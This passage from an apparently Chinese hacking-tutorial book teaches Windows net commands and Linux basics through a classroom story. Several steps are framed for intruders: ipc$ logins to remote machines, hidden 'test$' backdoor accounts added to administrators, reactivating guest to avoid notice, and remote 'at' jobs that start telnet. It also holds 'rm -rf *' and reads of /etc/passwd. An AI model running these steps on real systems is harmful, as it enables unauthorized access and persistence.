

图 2.3



图 2.4

```bash
net view \\hackerxf
```

查看局域网内一台名为 hackerxf 的电脑上开放的共享资源信息，如图 2.5。这种格式也可以在 Internet 上来使用，但因为 NetBIOS 名称在 Internet 上可能会重复，所以通常在 Internet 上使用的是 IP 地址。



图 2.5

```bash
net view \\192.168.0.251
```

查看网络中一台 IP 地址为 192.168.0.251 的电脑上开放的共享资源信息。

  - 2）**net use**  
    功能：显示网络连接信息，也可以实现共享资源的映射。  
    使用格式：

```bash
net use
```

会显示出当前电脑与远程电脑的网络连接信息，如图 2.6。



图 2.6

```bash
net use * /del
```

断开与远程电脑的所有连接，包括映射的共享资源，如图 2.7。



图 2.7

```bash
net use \\192.168.0.55\ipc$ "123456" /user:"administrator"
```

与网络内一台 IP 地址为 192.168.0.55 的电脑建立 ipc$ 管道连接，建立连接的用户名为 administrator，口令为 123456，如图 2.8。如果口令或用户名为空的话，可以直接使用 `""` 来表示。



图 2.8

```bash
net use x: \\192.168.0.251\movie
```

将网络内一台 IP 地址为 192.168.0.251 的电脑上开放的共享资源 movie 映射成本地电脑的 x 盘。这样我们就可以像访问自己的硬盘一样来访问对方的共享资源了。

  - 3）**net user**  
    功能：查看、管理系统中的用户帐号。  
    使用格式：

```bash
net user
```

查看系统内所有的用户帐号信息，包括系统默认帐号，如图 2.9。



```bash
net user sagi
```

列出系统用户帐号 sagi 的详细信息，包括该用户上次登录的时间、上次设置密码及密码到期的时间、该帐号所属的组等，如图 2.10。



```bash
net user test /add
```

在系统内添加一个名为“test”的用户帐号，如果我们添加的是 test$，也就是在用户名后边有个 `$` 符号的用户的话，这类帐号直接使用 net user 命令来查看是显示不出来的。

```bash
net user test 135790 /add
```

在系统内添加一个名为“test”、密码为“135790”的用户帐号，如图 2.11。



```bash
net user test /del
```

删除系统内名为“test”的用户帐号。

```bash
net user test /active:no
```

禁止使用系统内的用户帐号 test。

```bash
net user test /active:yes
```

激活系统内的用户帐号 test。入侵者经常使用该命令激活系统默认的 guest 帐号来供自己使用，因为添加一个新帐号的话容易被管理员发现。

  - 4）**net localgroup**  
    功能：查看、管理系统中的组。  
    使用格式：

```bash
net localgroup
```

显示系统内所有的组。

```bash
net localgroup administrators
```

显示系统内 administrators 组中所有的用户帐号，如图 2.12。我们可以通过这个命令来查看系统中是否被入侵者添加了具有管理员权限的用户帐号，即使对方添加的是诸如 test$ 这类隐藏的帐号也会显示出来。



```bash
net localgroup test /add
```

在系统内添加一个名为 test 的组。

```bash
net localgroup test /del
```

删除系统内名为 test 的组。

```bash
net localgroup administrators test /add
```

将系统内的 test 帐号添加到 administrators 组中，如图 2.13。对于入侵者来说，可以使用这个命令再结合 `net user` 命令来添加属于自己的后门帐号，并将其添加到 administrators 组中，使该帐号拥有系统管理员权限。



```bash
net localgroup administrators test /del
```

将系统内 administrators 组中的一名为 test 的用户帐号从该组中取消掉，但不删除该帐号，从 administrators 组中取消掉的 test 帐号将只拥有 guest 权限。

  - 5）**net send**  
    功能：在网络内发送消息。  
    使用格式：

```bash
net send 192.168.0.55 你好呀！
```

将“你好呀！”发送给网络内 IP 地址为 192.168.0.55 的电脑。这个命令在 Internet 上也可以使用，我们可以使用该命令在局域网或 Internet 上简单地实现信息的交流，说得再简单一些，就是聊天。当对方接收到该信息后，就会在屏幕上显示出类似如图 2.14 所示的对话框。



  - 6）**net time**  
    功能：查询当前的系统时间。  
    使用格式：

```bash
net time \\192.168.0.12
```

显示出网络内 IP 地址为 192.168.0.12 的电脑的系统日期及时间。

  - 7）**net start**  
    功能：列出、管理系统内的服务。  
    使用格式：

```bash
net start
```

列出系统内当前启动的服务。

```bash
net start telnet
```

启动系统内的 telnet（远程登录）服务。

  - 8）**net stop**  
    功能：停止系统内指定的服务。  
    使用格式：

```bash
net stop Workstation
```

停止系统内的 Workstation 服务。

- 18. **netstat**  
  功能：显示出系统内开放的端口，以及相应的网络连接情况。  
  使用格式：

```bash
netstat -a
```

显示出系统内所有开放的端口，包括使用的协议（proto）、连接该端口的主机的域名或 IP 地址以及这些端口的状态（state）等，如图 2.15。通过这个命令我们可以检查出自己的系统中是否有可疑的端口，这些端口通常都是远程控制程序（特洛伊木马程序）或是一些远程攻击程序开启的。

- 19. **runas**  
  功能：在不注销当前用户的情况下以别的用户身份运行特定程序。  
  使用格式：

```bash
runas /user:test nc.exe
```

以 test 用户身份执行 nc.exe，我们输入 test 用户的密码后，系统就会另外开启一个 cmd 窗口来运行 nc.exe 了，如图 2.16。

图 2.15

图 2.16

#### 20. at

功能：在特定的日期和时间在本机或远程电脑上运行指定的命令或程序。

使用格式：

```bash
at
```

显示要执行的任务清单。

```bash
at \\192.168.0.55 11:05 net start telnet
```

指定网络内 IP 地址为 192.168.0.55 的电脑在当天的 11:05 执行命令 `net start telnet`，也就是启动 telnet 远程登录服务，如图 2.16。如果添加任务时，对方系统的时间已经超过了指定要运行的时间，则任务将会推迟到第二天的 17:45 再执行。不过要注意，我们在使用这个命令前，需要先与对方建立一个成功的 IPC 连接。

图 2.17

```bash
at \\192.168.0.12 /del
```

删除掉网络内 IP 地址为 192.168.0.12 的电脑尚未执行的全部任务。

#### 21. telnet

功能：登录远程系统。

使用格式：

```bash
telnet 203.206.86.22
```

远程登录 IP 地址为 203.206.86.22 的电脑，默认连接的是 telnet（23）端口。需要对方开启 telnet 服务，否则会登录不上。退出 telnet 登录状态，我们可以使用 `exit` 命令，或按 `Ctrl+C` 强行退出。

```bash
telnet 203.206.86.22 25
```

远程连接 IP 地址为 203.206.86.22 的电脑的 SMTP（25）端口。

#### 22. ftp

功能：与远程电脑进行文件传输。

使用格式：

```bash
ftp 192.168.0.254
```

连接远程开放了 ftp 服务的一台主机，其 IP 地址为 192.168.0.254，默认连接的是 ftp（21）端口。也可以使用下边的格式来连接远程主机。

```bash
ftp
ftp> open 192.168.0.254
```

连接成功后，输入相应的用户账号和密码就可以登录进去，然后就可以使用 `get` 命令下载文件，使用 `put` 命令上传文件，退出可以使用 `bye` 命令。ftp 是一个非常实用的命令，我们在以后的章节中会进行详细讲解。

讲到这儿，sagi 望了望讲台下，只见阿呆、阿黑他们正在自己的电脑上试着操作那些命令。对于同学们积极的学习态度和热情，sagi 老师深表满意。于是拍了拍手，继续说道：“好了，同学们，暂时停止操作，认真听讲。关于 Windows 下的一些最常用的系统命令我们就讲这么多，接下来我们再来了解一下 UNIX/Linux 系统下的一些最常用的系统命令。”

话音刚落，就听台下的阿虫同学说道：“sagi 老师，我们使用的都是‘瘟到死 XP’系统，对于前边讲的那些 Windows 系统命令，感觉挺有趣的，也非常有用。可是我们根本就没有用过什么‘有你克死’（UNIX）、‘李你克死’（Linux）系统，干吗还要学习那些命令的使用呢？”其余几位小菜也纷纷点头附和着。

“是希望自己能够成为一个真正的黑客吗？”

台下的小菜纷纷点点头。sagi 看了看台下，又继续说道：“那么，倘若说你们只会入侵 Windows 系统，而碰到 UNIX 或 Linux 系统就束手无策了，这能称得上是一个真正的黑客吗？”小菜们想了想，又纷纷地摇了摇头。阿黑他们都觉得 sagi 老师这番话确实有一定的道理，如果只会入侵 Windows 系统，而换成是 UNIX/Linux 系统，就啥也不会了，对于一个神通广大、无所不能的黑客高手，确实是不应该的。那样的黑客，顶多也就是学习了一半的入侵技术，或许更应该被称为“二分之一黑客”吧！

就听讲台上的 sagi 老师又讲道：“我们以 RedHat Linux 系统为例（RedHat Linux 是北美使用最为广泛的一款 Linux 系统，在国内使用的也是非常多，自 9.0 版本后，已经改名为 Fedora Linux，版本变为 fc 加数字的形式，目前最新的版本是 fc7），大家可以点击系统最左下角的红色帽子图标，选择‘系统工具’—‘终端’，在终端下就可以执行相应的系统命令了，如图 2.18。”

### 2.2 UNIX/Linux 常用基础命令

- 1. `>`、`<`、`>>`、`<<`  
  功能：用于输入、输出的转向，通常是与其他一些命令结合起来使用。

- 2. 通配符 `?`、`*`  
  功能：`?` 可以替代单个的任意字符，`*` 可以替代全部任意字符，通常与其他命令结合起来使用。

- 3. `echo`  
  功能：打印屏幕。

使用格式：

```bash
echo this is a test!
```

执行后，就会在屏幕上显示出“this is a test!”这句话。这和 Windows 下的用法一样，但是在 UNIX/Linux 下并没有开启、关闭显示的功能。例如：`echo on` 这个命令，只会在屏幕上显示出 “on” 这个单词，这又和 Windows 下的使用不完全一样。

```bash
echo 系统常用基础命令>abc.txt
echo 追加命令>>abc.txt
```

将“系统常用基础命令”这行字写到 `abc.txt` 文件中，和 Windows 下的用法一样。  
将“追加命令”这四个字追加到 `abc.txt` 文件中，和 Windows 下的用法一样。

- 4. `dir`、`ls`  
  功能：列出文件或目录。

使用格式：

```bash
dir
```

列出当前目录下的文件，和 Windows 下 `dir /w` 的作用类似。`dir` 的功能远没有 `ls` 命令强大，所以在 UNIX/Linux 系统下使用最多的是 `ls` 命令。

```bash
ls
```

列出当前目录下的文件，和上边的 `dir` 命令用法一样。

```bash
ls -la
```

详细列出当前目录下的文件及子目录，包括它们的属性、属主、文件大小、创建日期及时间等信息，如图 2.19，和 Windows 下的 `dir /p` 功能类似。

#### 5. pwd

功能：显示当前的工作目录。

使用格式：

```bash
pwd
```

显示当前的工作目录，和 Windows 下执行 `cd` 命令时的作用一样。

#### 6. cd

功能：切换目录。

使用格式：

```bash
cd
```

返回到自己的工作目录。对于 root 用户来说，执行 `cd` 后会返回到 root 目录下，这和在 Windows 下执行 `cd` 命令的作用并不一样。

```bash
cd /etc
```

进入 `etc` 目录。

```bash
cd ..
```

返回到上层目录，注意中间有一个空格。

```bash
cd /
```

返回到根目录。

#### 7. mkdir

功能：创建目录。

使用格式：

```bash
mkdir hacker
```

在当前目录下新建一个名为 `hacker` 的目录，和 Windows 下 `md` 命令功能类似。

#### 8. rmdir

功能：删除目录。

使用格式：

```bash
rmdir hacker
```

删除当前目录下名为 `hacker` 的目录，但删除时要注意该目录必须为空目录，否则同样会提示目录非空。和 Windows 下 `rd` 命令功能类似。

#### 9. cp

功能：复制文件。

使用格式：

```bash
cp /home/dobrk.c /hacker
```

将 `/home` 目录下的 `dobrk.c` 文件复制到 `/hacker` 目录下，和 Windows 下 `copy` 命令功能类似。

#### 10. mv、rename

功能：文件改名。

使用格式：

```bash
mv dobrk.c linuxdobrk.c
```

将当前目录下的 `dobrk.c` 改名为 `linuxdobrk.c`，该命令作用与 Windows 下的 `ren` 类似。

#### 11. rm

功能：删除文件。

使用格式：

```bash
rm dobrk.c
```

删除当前目录下的 `dobrk.c` 文件，和 Windows 下 `del` 命令作用类似。

```bash
rm -rf *
```

删除当前目录下的所有文件，包括子目录下的文件。如果你拥有 root 权限，而又是在根目录（`/`）下执行该命令的话，将会毁掉整个系统。

#### 12. cat

功能：显示文件内容。

使用格式：

```bash
cat dobrk.c
```

显示当前目录下 `dobrk.c` 文件的内容，`cat` 命令功能与 Windows 下的 `type` 命令很类似。

```bash
cat /etc/passwd | more
```

显示 `/etc` 目录下 `passwd` 文件的内容，如果内容很多一屏显示不完，则分屏显示，按任意键显示下一屏内容，如图 2.20。`/etc/passwd` 文件中记录的并不是真正的系统密码，真正的密码保存在 `/etc/shadow` 文件中，但是需要有 root 权限才可以查看。

图 2.20

#### 13. at

功能：在特定的日期和时间在本地电脑上运行指定的命令或程序。

使用格式：

```bash
at -f job 12am Oct 31
```

在 10 月 31 日上午 12 点执行当前目录下的 `job` 文件。

#### 14. chmod

功能：更改文件的权限。

使用格式：

```bash
chmod 777 test.c
# 或：
chmod rwxrwxrwx test.c
```

更改当前目录下文件 `test.c` 的权限为 `rwxrwxrwx`，也就是所有用户都拥有读、写和执行的权限，如图 2.21。上边两种格式的作用完全一样。

图 2.21

在 UNIX/Linux 系统下，所有文件或目录的属性都有三个，分别为所有者属性、同组用户属性，以及其他组用户属性。而每个属性的权限又分为三个，分别为 r（读）、w（写）、x（执行）。因此一个完整的文件或目录属性就是 `rwxrwxrwx`，表示所有用户都拥有读、写、执行权限；而 `rwxr-xr-x` 表示只有文件或目录的所有者拥有读、写、执行权限，而其他用户只拥有读和执行权限；`rwxr-xr--` 表示只有文件或目录的所有者拥有读、写、执行权限，同组其他用户只拥有读和执行权限，而其他组用户只拥有读权限。

除了 `r`、`w`、`x` 外，我们也可以使用数字来表示相应权限，`0` 表示没有权限，`1` 表示拥有权限（不管是读、写还是执行权限，只要拥有都可以用 `1` 表示）。我们可以使用下边的对应关系来说明数字与权限间的表示关系：

| 十进制数 | 转换为八进制数 | 相应的权限 | 表示 |
|---|---|---|---|
| 0 | 000 | --- | 没有任何权限 |
| 1 | 001 | --x | 只拥有执行权限 |
| 2 | 010 | -w- | 只拥有写权限 |
| 3 | 011 | -wx | 拥有写和执行的权限 |
| 4 | 100 | r-- | 只拥有读的权限 |
| 5 | 101 | r-x | 只拥有读和执行的权限 |
| 6 | 110 | rw- | 拥有读和写的权限 |
| 7 | 111 | rwx | 拥有全部的读、写和执行权限 |

因此，111（转换成十进制数字就是 7）表示 `rwx`，也就是拥有读、写、执行权限；101（转换成十进制数字就是 5）表示 `r-x`，也就是拥有读和执行权限。这样，使用十进制数来表示权限，777 也就等同于 `rwxrwxrwx`；755 等同于 `rwxr-xr-x`；400 等同于 `r--------`。

```bash
chmod 755 test.c
# 或
chmod rwxr-xr-x test.c
```

更改当前目录下文件 `test.c` 的文件权限为 `rwxr-xr-x`，也就是只有文件所有者拥有读、写和执行权限，同组其他用户以及其他组用户只拥有读和执行权限。

```bash
chmod 600 test.c
# 或
chmod rw------- test.c
```

更改当前目录下文件 `test.c` 的文件权限为 `rw-------`，也就是只有文件所有者拥有读和写权限，而同组其他用户以及其他组用户没有任何权限。

#### 15. chown

功能：更改文件的所有者和组。

使用格式：

```bash
chown sagi:root dobrk
```

将文件 `dobrk` 的所有者改为 `sagi`，而所属组改为 `root`。

#### 16. chgrp

功能：更改文件的组。

使用格式：

```bash
chgrp -R sagi /home/*
```

将 `/home/` 目录及其子目录下所有文件的组改为 `sagi`。

#### 17. find

功能：搜索特定文件。

使用格式：

```bash
find ./ --name "test.c" -print
```

从当前目录开始搜索所有名为 `test.c` 的文件并显示出来，在 `/` 根目录下执行就是在整个系统中查找。该命令功能类似 Windows 下的 `dir /s/a`。

#### 18. w、who

功能：显示当前登录进系统的用户。  
使用格式：

```bash
w
```

显示当前登录进系统的所有用户，包括他们登录进来的时间、执行的命令等。

```bash
who
```

显示当前登录进系统的所有用户，包括他们登录进来的日期和时间。

#### 19. netstat

功能：显示系统内开放的端口，以及相应的网络连接情况。  
使用格式：

```bash
netstat -a
```

显示系统内所有开放的端口，包括使用的协议（proto）、连接该端口的主机域名或 IP 地址以及这些端口的状态（state）等，如图 2.22。通过这个命令我们可以检查自己的系统中是否开放了可疑端口。该命令功能与 Windows 下的 `netstat` 命令基本类似。

图 2.22

#### 20. ps

功能：查看进程。  
使用格式：

```bash
ps -e
```

显示当前运行的进程。

#### 21. kill

功能：中止进程。

使用格式：

```bash
kill -9 1344
```

强制杀死 pid 为 1344 的进程。

#### 22. uname

功能：显示系统名称。

使用格式：

```bash
uname
```

简单显示系统名称，对于 Linux 系统会显示出 `Linux`。

```bash
uname -a
```

详细显示系统名称，包括 DNS 名称、内核版本号、系统平台等信息。

#### 23. rpm

功能：管理 rpm 软件包。

使用格式：

```bash
rpm -ivv telnet-server-0.17-20.i386.rpm
```

安装软件包 `telnet-server-0.17-20.i386.rpm`，也就是 telnet 服务。

```bash
rpm -evv telnet-server-0.17-20.i386.rpm
```

卸载安装的软件包 `telnet-server-0.17-20.i386.rpm`，也就是卸载 telnet 服务。

#### 24. tar

功能：管理 gzip 及 tar 格式的软件包。

使用格式：

```bash
tar -cvf dobrk.tar dobrk.c
```

将当前目录下文件 `dobrk.c` 压缩成 `dobrk.tar`。

```bash
tar -xvf telnet.tar
```

解压缩 tar 软件包 `telnet.tar` 到当前目录下。

```bash
tar -xzvf telnet.tar.gz
```

